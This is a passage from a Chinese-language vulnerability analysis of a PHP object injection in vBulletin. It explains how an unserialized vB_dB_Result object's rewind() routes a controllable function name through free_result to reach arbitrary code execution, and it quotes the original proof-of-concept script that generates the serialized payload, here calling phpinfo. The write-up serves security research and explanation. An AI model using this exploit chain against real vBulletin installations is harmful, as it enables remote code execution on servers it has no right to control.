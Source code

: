 通过反序列化，我们可以使之能生成在执行环境上下文中已经定义好了的类实例，并通过寻找一个含有`__wakeup()`或者`__destruct()`魔术方法存在问题的类来进行利用。然后原文中所提到的利用方法并不是这样，其使用的是继承于 PHP 迭代器类型的`vB_dB_Result`类，由于`$args = @unserialize($arguments)`产生了一个迭代器`vB_dB_Result`类实例，因此在后面进行`foreach`操作时会首先调用其`rewind()`函数。

而在`rewind()`函数处理过程中，会根据实例变量状态进行调用：

```
public function rewind()
{
    if ($this->recordset)
    {
        $this->db->free_result($this->recordset);
    }

```

这里就可以通过反序列化来控制`$this->recordset`的值，并且`$this->db->free_result`最终会调用：

```
function free_result($queryresult)
{
    $this->sql = '';
    return @$this->functions['free_result']($queryresult);
}

```

`$this->functions['free_result']`原本的初始化值为`mysql_free_result`，但是由于反序列化的原因，我们也能控制`vB_dB_Result`类实例中的`db`成员，更改其对应的`functions['free_result']`为我们想要执行的函数，因此一个任意代码执行就产生了。

0x01 利用分析和完善
=====

观察一下原文中提供的 Payload 构造 PoC：

```
<?php
class vB_Database {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'phpinfo';
       }
}    

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database();
               $this->recordset = 1;
       }
}    

print urlencode(serialize(new vB_dB_Result())) . "\n";

```
